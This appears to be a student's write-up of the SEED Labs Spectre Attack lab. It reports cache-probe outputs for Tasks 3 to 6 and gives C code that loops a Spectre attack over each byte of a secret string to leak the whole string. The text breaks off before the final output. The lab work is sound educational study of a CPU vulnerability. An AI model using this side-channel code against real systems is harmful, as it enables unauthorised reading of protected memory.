

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Spectre_Attack.pdf

*task 1 and 2 are exactly the same tasks as what in [Meltdown Attack Lab](./Meltdown-Attack)*

# Task 3

```
array[97*4096 + 1024] is in cache.
The Secret = 97.
```

Because `97>=size`, the statement of Line 2 should not be executed. But, Actually, the program fetches the effects on CPU cache.

After commenting all `_mm_clflush(&size)`,it runs with nothing output. It shows that the program can read any extra information from the cache now. The function [`_mm_clflush`](https://software.intel.com/sites/landingpage/IntrinsicsGuide/#text=_mm_clflush&expand=678) flushes all content in caches that contains variable `size`, which ensure the cache is not influenced by `size` during each call of `victim`.


It also fails to give any output. Because when `i>size`, the statement will be not executed actually but still takes up the space of cache in the same way as `victim(97)` do. 

# Task 4

Yes. It indeed prints the first element (`'S'`, or `83` in ASCII) of `secret`.

```
array[83*4096 + 1024] is in cache.
The Secret = 83.
```

# Task 5

Because `restrictedAccess(larger_x)` always returns 0, the code can be fixed as taking the index of the second-highest score.

```c
int max = 1;
for (i = 1; i < 256; i++)
{
    if (scores[max] < scores[i])
        max = i;
}
```

Then I can get the information of the 1-st letter in the secret message:

```
Reading secret value at 0xffffe80c = The  secret value is 83
The number of hits is 333
```

# Task 6

Nest the main call into a loop and print out the entire secret string letter by letter:

```c
int main()
{
    int i;
    uint8_t s;
    int k;
    for (k = 0; k < strlen(secret); k++)
    {
        size_t larger_x = (size_t)(secret - (char *)buffer) + k;
        flushSideChannel();
        for (i = 0; i < 256; i++)
            scores[i] = 0;
        for (i = 0; i < 1000; i++)
        {
            spectreAttack(larger_x);
            reloadSideChannelImproved();
        }
        int max = 1;
        for (i = 1; i < 256; i++)
        {
            if (scores[max] < scores[i])
                max = i;
        }
        printf("Reading secret value at %p = ", (void *)larger_x);
        printf("The  secret value is %d:%c\n", max, (char)max);
        printf("The number of hits is %d\n", scores[max]);
    }
    return (0);
}
```

Then the whole string can be revealed:

